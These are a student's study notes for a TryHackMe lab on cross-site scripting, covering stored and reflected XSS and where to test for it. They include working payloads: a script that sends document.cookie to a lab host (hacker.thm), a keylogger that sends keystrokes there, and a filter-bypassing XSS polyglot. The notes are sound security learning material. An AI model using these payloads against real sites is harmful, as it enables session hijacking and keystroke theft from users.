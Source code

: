 # Room: Intro to Cross-site scripting

## Key Concept
- XSS is a injection attack where malicious JS gets injected into a web application with the intention of being executed by other users.
- Can use alert as a way to prove a site is XSS vulnerable
- Can steal session data using:
```JavaScript
<script>fetch('https://hacker.thm/steal?cookie=' + btoa(document.cookie));</script>
```
- Keylogger:
```JavaScript
<script>document.onkeypress = function(e) { fetch('https://hacker.thm/log?key=' + btoa(e.key) );}</script>
```

### Testing for XSS
- Parameters in the URL query string
- URL file path
- Sometimes in HTTP headers

### Stored XSS
- Malicious code stored on site (such as code in a comment stored on DB)
- Victim views comment, runs code in victims browser

#### Testing for Stored XSS
- Test every possible point of entry where it seems data is stored and then shown back in areas other users have access to

## Tools / commands
- XSS hunter express: can be used for blind XSS attacks
- JS polyglot, An XSS polyglot is a string of text which can escape attributes, tags and bypass filters all in one:
    - ```JavaScript
    jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
    ```
